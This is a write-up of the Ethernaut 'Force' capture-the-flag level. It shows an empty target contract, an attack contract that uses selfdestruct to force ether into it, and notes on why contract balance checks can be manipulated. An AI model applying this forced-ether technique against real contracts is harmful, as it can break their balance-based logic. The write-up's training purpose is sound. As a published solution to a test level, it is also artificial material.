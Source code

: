 ## Challenge
~~~
Some contracts will simply not take your money `¯\_(ツ)_/¯`

The goal of this level is to make the balance of the contract greater than zero.

  Things that might help:

- Fallback methods
- Sometimes the best way to attack a contract is with another contract.
- See the ["?"](https://ethernaut.openzeppelin.com/help) page above, section "Beyond the console"
~~~
## Contract
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```
`

## Solution

```
//SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

contract Attack {
    address constant TARGET = 0x994210f6Ae50a69DB8889Ddab88b867bE9D8b86f;
    constructor() payable {
    }
    
    function attack() external payable {
        selfdestruct(payable (TARGET));
    }
}
```

## Key takeaways and useful resources

Few ways a contract can have ether associated with it:
 - have a receive() function
 - be sent ether when initialized (payable constructor)
 - if this contract is designated for the remaining ether of a deleted contract.
   
This is why we should never depened on the `address(this).balance` as this can be manipulated.



